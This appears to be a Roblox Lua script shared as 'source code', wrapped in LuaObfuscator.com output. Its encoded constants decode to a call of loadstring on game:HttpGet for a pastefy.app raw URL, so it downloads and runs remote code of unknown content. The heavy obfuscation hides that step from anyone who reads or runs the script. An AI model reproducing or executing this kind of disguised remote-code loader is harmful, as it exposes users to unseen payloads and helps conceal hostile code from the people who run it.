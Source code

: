 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then v19=v0(v3(v30,1,1));return "";else local v90=v2(v0(v30,16));if v19 then local v109=0;local v110;while true do if (v109==0) then v110=v5(v90,v19);v19=nil;v109=1;end if (v109==1) then return v110;end end else return v90;end end end);local function v20(v31,v32,v33) if v33 then local v91=(v31/(((2 + 3) -3)^(v32-1)))%((5 -3)^(((v33-(1 -0)) -(v32-(2 -1))) + 1 + 0)) ;return v91-(v91%((1497 -(282 + 595)) -(555 + 64))) ;else local v92=2^(v32-(932 -(857 + 74))) ;return (((v31%(v92 + v92))>=v92) and (569 -(367 + 201))) or (927 -(214 + (2350 -(1523 + 114)))) ;end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35=0 + 0 ;local v36;local v37;while true do if (v35==(0 -(117 -(32 + 85)))) then v36,v37=v1(v16,v18,v18 + (1067 -(68 + 997)) );v18=v18 + (1272 -(226 + 1044)) ;v35=4 -3 ;end if (v35==1) then return (v37 * 256) + v36 ;end end end local function v23() local v38=0 + 0 ;local v39;local v40;local v41;local v42;while true do if (0==v38) then v39,v40,v41,v42=v1(v16,v18,v18 + 1 + 2 );v18=v18 + 4 ;v38=958 -(892 + 65) ;end if (v38==(2 -1)) then return (v42 * (31011612 -14234396)) + (v41 * (120312 -54776)) + (v40 * ((786 -(67 + 113)) -(87 + 263))) + v39 ;end end end local function v24() local v43=v23();local v44=v23();local v45=1 + 0 ;local v46=(v20(v44,1 + 0 + 0 ,(41 + 8) -29 ) * ((2 + 0)^((796 -(201 + 571)) + 8))) + v43 ;local v47=v20(v44,83 -62 ,983 -(802 + (1288 -(116 + 1022))) );local v48=((v20(v44,823 -(368 + 423) )==(2 -1)) and  -(1 -0)) or (1 + 0) ;if (v47==(997 -(915 + 82))) then if (v46==(0 -0)) then return v48 * (0 -0) ;else v47=(4 -3) + 0 ;v45=0 -0 ;end elseif (v47==(3234 -(1069 + 118))) then return ((v46==(438 -(145 + 293))) and (v48 * ((2 -1)/0))) or (v48 * NaN) ;end return v8(v48,v47-(1453 -(44 + 386)) ) * (v45 + (v46/(((2 + 1) -1)^(1538 -(998 + 488))))) ;end local function v25(v49) local v50;if  not v49 then v49=v23();if (v49==(0 -0)) then return "";end end v50=v3(v16,v18,(v18 + v49) -(3 -2) );v18=v18 + v49 ;local v51={};for v67=1, #v50 do v51[v67]=v2(v1(v3(v50,v67,v67)));end return v6(v51);end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v52=(function() return function(v93,v94,v95,v96,v97,v98,v99,v100,v101) local v102=(function() return 0 + 0 ;end)();local v93=(function() return;end)();local v94=(function() return;end)();while true do if (v102==(0 + 0)) then local v116=(function() return 0 + 0 ;end)();while true do if (v116==0) then v93=(function() return 0;end)();v94=(function() return nil;end)();v116=(function() return 1385 -(746 + 638) ;end)();end if (v116~=(837 -(660 + 176))) then else v102=(function() return 1;end)();break;end end end if (v102~=(1 -0)) then else while true do if (v93==(341 -(218 + 123))) then v94=(function() return v95();end)();if (v96(v94, #"~", #",")~=0) then else local v122=(function() return 0 + 0 ;end)();local v123=(function() return;end)();local v124=(function() return;end)();local v125=(function() return;end)();local v126=(function() return;end)();while true do if (v122==(202 -(14 + 188))) then local v141=(function() return 0;end)();while true do if (v141==(0 + 0)) then v123=(function() return 675 -(534 + 141) ;end)();v124=(function() return nil;end)();v141=(function() return 1;end)();end if (v141~=(1 + 0)) then else v122=(function() return 1 + 0 ;end)();break;end end end if (v122==(1 -0)) then local v142=(function() return 1467 -(899 + 568) ;end)();while true do if (v142==0) then v125=(function() return nil;end)();v126=(function() return nil;end)();v142=(function() return 1;end)();end if ((1 + 0)~=v142) then else v122=(function() return 2 + 0 ;end)();break;end end end if ((2 + 0)==v122) then while true do if (v123~= #"|") then else local v178=(function() return 0 -0 ;end)();while true do if (v178~=(604 -(268 + 335))) then else v123=(function() return 3 -1 ;end)();break;end if (0==v178) then v126=(function() return {v97(),v97(),nil,nil};end)();if (v124==0) then local v184=(function() return 0 -0 ;end)();local v185=(function() return;end)();while true do if (v184~=(0 + 0)) then else v185=(function() return 0 + 0 ;end)();while true do if (v185==0) then v126[ #"91("]=(function() return v97();end)();v126[ #"?id="]=(function() return v97();end)();break;end end break;end end elseif (v124== #"|") then v126[ #"xnx"]=(function() return v98();end)();elseif (v124==2) then v126[ #"91("]=(function() return v98() -((1458 -(282 + 1174))^16) ;end)();elseif (v124== #"asd") then local v192=(function() return 396 -(115 + 281) ;end)();local v193=(function() return;end)();while true do if ((0 -0)==v192) then v193=(function() return 0 + 0 ;end)();while true do if (0~=v193) then else v126[ #"xxx"]=(function() return v98() -((4 -2)^(1040 -(706 + 318))) ;end)();v126[ #".dev"]=(function() return v97();end)();break;end end break;end end end v178=(function() return 3 -2 ;end)();end end end if (v123==(1273 -(945 + 326))) then local v179=(function() return 0 -0 ;end)();while true do if (v179==0) then if (v96(v125, #"}", #"~")== #".") then v126[2]=(function() return v99[v126[869 -(550 + 317) ]];end)();end if (v96(v125,702 -(271 + 429) ,2 -0 )~= #"~") then else v126[ #"asd"]=(function() return v99[v126[ #"xnx"]];end)();end v179=(function() return 1 -0 ;end)();end if (v179==1) then v123=(function() return  #"-19";end)();break;end end end if ((0 -0)==v123) then local v180=(function() return 285 -(134 + 151) ;end)();local v181=(function() return;end)();while true do if ((1665 -(970 + 695))==v180) then v181=(function() return 0 -0 ;end)();while true do if (v181==(1990 -(582 + 1408))) then v124=(function() return v96(v94,1173 -(418 + 753) , #"asd");end)();v125=(function() return v96(v94, #"asd1",20 -14 );end)();v181=(function() return 1 -0 ;end)();end if (v181~=(3 -2)) then else v123=(function() return  #",";end)();break;end end break;end end end if (v123== #"91(") then if (v96(v125, #"19(", #"xxx")== #">") then v126[ #"0313"]=(function() return v99[v126[ #"0836"]];end)();end v100[v101]=(function() return v126;end)();break;end end break;end end end break;end end return v93,v94,v95,v96,v97,v98,v99,v100,v101;end end end;end)();local v53=(function() return function(v103,v104,v105) local v106=(function() return 0 + 0 ;end)();while true do if (v106==(1824 -(1195 + 629))) then local v117=(function() return 0 -0 ;end)();while true do if (0~=v117) then else local v121=(function() return 0;end)();while true do if (v121~=(241 -(187 + 54))) then else v103[v104-#"{" ]=(function() return v105();end)();return v103,v104,v105;end end end end end end end;end)();local v54=(function() return {};end)();local v55=(function() return {};end)();local v56=(function() return {};end)();local v57=(function() return {v54,v55,nil,v56};end)();local v58=(function() return v23();end)();local v59=(function() return {};end)();for v69= #"{",v58 do local v70=(function() return 0 + 0 ;end)();local v71=(function() return;end)();local v72=(function() return;end)();local v73=(function() return;end)();while true do if (1==v70) then v73=(function() return nil;end)();while true do if (v71~=(0 + 0)) then else v72=(function() return v21();end)();v73=(function() return nil;end)();v71=(function() return 1 -0 ;end)();end if ((1 -0)==v71) then if (v72== #"]") then v73=(function() return v21()~=(0 + 0) ;end)();elseif (v72==(1 + 1)) then v73=(function() return v24();end)();elseif (v72== #"xxx") then v73=(function() return v25();end)();end v59[v69]=(function() return v73;end)();break;end end break;end if ((1636 -(1373 + 263))==v70) then local v111=(function() return 0 -0 ;end)();while true do if (v111==(1000 -(451 + 549))) then v71=(function() return 0 -0 ;end)();v72=(function() return nil;end)();v111=(function() return 1 + 0 ;end)();end if (v111==(1 + 0)) then v70=(function() return 1 -0 ;end)();break;end end end end end v57[ #"xnx"]=(function() return v21();end)();for v74= #"/",v23() do FlatIdent_781F8,Descriptor,v21,v20,v22,v23,v59,v54,v74=(function() return v52(FlatIdent_781F8,Descriptor,v21,v20,v22,v23,v59,v54,v74);end)();end for v75= #"}",v23() do v55,v75,v28=(function() return v53(v55,v75,v28);end)();end return v57;end local function v29(v61,v62,v63) local v64=v61[1 + (216 -(42 + 174)) ];local v65=v61[(4 + 1) -3 ];local v66=v61[7 -4 ];return function(...) local v76=v64;local v77=v65;local v78=v66;local v79=v27;local v80=115 -(4 + 110) ;local v81= -(585 -(57 + 527));local v82={};local v83={...};local v84=v12("#",...) -(754 -(239 + 514)) ;local v85={};local v86={};for v107=0,v84 do if ((630<2127) and (v107>=v78)) then v82[v107-v78 ]=v83[v107 + ((37 + 67) -(17 + 86)) ];else v86[v107]=v83[v107 + 1 + 0 ];end end local v87=(v84-v78) + (1 -0) ;local v88;local v89;while true do local v108=0 -0 ;while true do if (v108==(166 -(122 + 44))) then v88=v76[v80];v89=v88[1 -0 ];v108=3 -2 ;end if (v108==(1 + 0)) then if ((v89<=(1 + 2)) or (1938==2514)) then if (v89<=1) then if ((4255>=55) and (v89==0)) then local v128=0;local v129;local v130;local v131;local v132;local v133;while true do if (v128==0) then v129=nil;v130,v131=nil;v132=nil;v133=nil;v86[v88[2]]={};v80=v80 + 1 ;v128=1 -0 ;end if ((2999>1156) and (v128==((30 + 39) -(30 + (1539 -(363 + 1141)))))) then v81=(v131 + v133) -1 ;v129=0 + (1580 -(1183 + 397)) ;for v175=v133,v81 do v129=v129 + (1258 -(1043 + (1543 -(797 + 532)))) ;v86[v175]=v130[v129];end v80=v80 + (3 -2) ;v88=v76[v80];v133=v88[1214 -(323 + 889) ];v128=5;end if ((2350>1155) and (v128==6)) then do return;end break;end if ((4029<=4853) and (v128==(13 -8))) then v86[v133]=v86[v133](v13(v86,v133 + (581 -(263 + 98 + 219)) ,v81));v80=v80 + ((109 + 212) -(53 + (627 -360))) ;v88=v76[v80];v86[v88[1 + 1 ]]();v80=v80 + 1 ;v88=v76[v80];v128=419 -(15 + 398) ;end if ((v128==(985 -(18 + 964))) or (516>3434)) then v88=v76[v80];v86[v88[5 -3 ]]=v88[11 -8 ];v80=v80 + 1 ;v88=v76[v80];v133=v88[2];v130,v131=v79(v86[v133](v13(v86,v133 + 1 + 0 ,v88[2 + 1 ])));v128=3 + 0 + 1 ;end if (v128==(851 -(20 + 830))) then v88=v76[v80];v86[v88[2 + 0 ]]=v63[v88[129 -(116 + 10) ]];v80=v80 + (1203 -(373 + 829)) + 0 ;v88=v76[v80];v86[v88[733 -(476 + 255) ]]=v63[v88[741 -(542 + 196) ]];v80=v80 + ((1131 -(369 + 761)) -0) ;v128=1 + 1 ;end if ((4046>=3033) and (v128==(2 + 0))) then v88=v76[v80];v133=v88[2];v132=v86[v88[2 + 1 ]];v86[v133 + ((1977 -(1913 + 62)) -1) ]=v132;v86[v133]=v132[v88[9 -5 ]];v80=v80 + 1 ;v128=(979 + 575) -(1126 + 425) ;end end else v86[v88[407 -((312 -194) + 167 + 120) ]]();end elseif (v89>(7 -5)) then v86[v88[2]]=v88[1124 -(118 + 1003) ];else v86[v88[2 -0 ]]=v63[v88[(14 -6) -(243 -(64 + 174)) ]];end elseif (v89<=(382 -(21 + 121 + 235))) then if ((v89==((67 -49) -14)) or (2719<=1447)) then v86[v88[1 + 1 ]]={};else do return;end end elseif ((v89<=(983 -(553 + 424))) or (4134<3926)) then local v139=v88[3 -1 ];v86[v139]=v86[v139](v13(v86,v139 + (1 -0) ,v81));elseif ((v89==7) or (164>=2785)) then local v143=v88[2 + 0 ];local v144=v86[v88[3 + (1661 -(1477 + 184)) ]];v86[v143 + 1 + 0 ]=v144;v86[v143]=v144[v88[2 + 2 ]];else local v148=v88[2 + 0 ];local v149,v150=v79(v86[v148](v13(v86,v148 + (2 -1) ,v88[7 -4 ])));v81=(v150 + v148) -1 ;local v151=0 -0 ;for v172=v148,v81 do v151=v151 + (1 -0) + 0 ;v86[v172]=v149[v151];end end v80=v80 + ((340 -(144 + 192)) -3) ;break;end end end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403203Q00682Q7470733A2Q2F706173746566792E612Q702F4669557945656A712F72617700099Q003Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
